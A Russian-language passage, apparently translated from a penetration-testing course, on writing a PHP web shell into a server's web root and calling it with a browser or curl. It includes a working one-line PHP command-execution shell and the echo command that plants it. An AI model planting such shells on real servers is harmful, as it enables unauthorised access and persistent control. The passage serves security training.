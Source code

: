 Однако, если у нас есть только удаленное выполнение команд с помощью эксплойта, мы можем записать нашу оболочку непосредственно в корневой каталог веб-сайта, чтобы получить к нему доступ через Интернет. Итак, первый шаг — определить, где находится корневой каталог. Ниже приведены веб-корни по умолчанию для обычных веб-серверов:

| Веб сервер | Веб-рут по умолчанию   |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\|   |
| `XAMPP`    | C:\xampp\htdocs\|      |

Мы можем проверить эти каталоги, чтобы увидеть, какой веб-корень используется, а затем использовать `echo`чтобы написать нашу веб-оболочку. Например, если мы атакуем хост Linux, на котором работает Apache, мы можем написать `PHP` оболочку с помощью следующей команды:

Код: Баш

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

---

#### Accessing Web Shell

После того, как мы напишем нашу веб-оболочку, мы сможем получить к ней доступ либо через браузер, либо с помощью `cURL`. Мы можем посетить `shell.php` страницу на взломанном веб-сайте и используйте `?cmd=id` выполнить `id` команда:

![[Pasted image 20240804223821.png]]

Другой вариант — использовать `cURL`:

Типы снарядов

```shell-session
Uliam@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Как мы видим, мы можем продолжать изменять команду, чтобы получить ее результат. Большим преимуществом веб-оболочки является то, что она обходит любые существующие ограничения брандмауэра, поскольку она не открывает новое соединение на порту, а запускается на веб-порте `80` или `443`или любой другой порт, который использует веб-приложение. Еще одним большим преимуществом является то, что если скомпрометированный хост будет перезагружен, веб-оболочка все равно останется на месте, и мы сможем получить к ней доступ и выполнить команду без повторного использования удаленного хоста.

С другой стороны, веб-оболочка не так интерактивна, как обратная оболочка и оболочка привязки, поскольку нам приходится постоянно запрашивать другой URL-адрес для выполнения наших команд. Тем не менее, в крайних случаях, можно закодировать `Python` скрипт, который автоматизирует этот процесс и предоставит нам полуинтерактивную веб-оболочку прямо в нашем терминале.